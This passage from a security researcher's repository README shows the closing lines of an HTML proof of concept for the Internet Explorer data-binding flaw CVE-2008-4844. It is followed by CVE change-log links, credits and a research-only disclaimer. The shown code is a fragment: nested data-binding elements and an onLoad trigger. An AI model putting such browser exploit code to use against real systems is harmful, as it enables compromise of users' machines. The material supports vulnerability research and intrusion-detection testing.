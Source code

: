 ```
		"<DIV DATASRC=#I DATAFLD=C DATAFORMATAS=HTML>" +
		"</DIV>" +
		"</SPAN>";
}
</SCRIPT>
<BODY onLoad="Inception();">
<DIV ID="b00m" STYLE="display: none;">
</DIV>
</BODY>
</HTML>
```
* _Researchers know how hard is to change vulnerabilities description, and I really apreciate the changes..._

Here is the [CVE Change Logs](https://cassandra.cerias.purdue.edu/CVE_changes/), and here is the [CVE Change Log](https://cassandra.cerias.purdue.edu/CVE_changes/CVE.2011.12.html) for modified [CVE-2008-4844](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4844) entry ([December 21, 2011](https://cassandra.cerias.purdue.edu/CVE_changes/CVE.2011.12.html)).

For further information, please, refer to this [link](https://github.com/nbrito/research/tree/master/pop/html/ips-bypass-test-bed).

## Credits
[Nelson Brito](mailto:nbrito@sekure.org)

## Disclaimer
Codes are available for research purposes only, and I vehemently deny the malicious use, as well as the illegal purpose use, of any information, code and/or tool contained on this repository.

If you think there is any information, code and/or tool that should not be here, please, [let me know](mailto:nbrito@sekure.org).

## Warning
This repository does not provide you with any legal rights to any intellectual property in any information, code and/or tool, also, be aware that the use of some information, code and/or tool may be forbidden in some countries, and there may be rules and laws prohibiting any unauthorized user from use the information, code and/or tool, being these actions considered illegal.

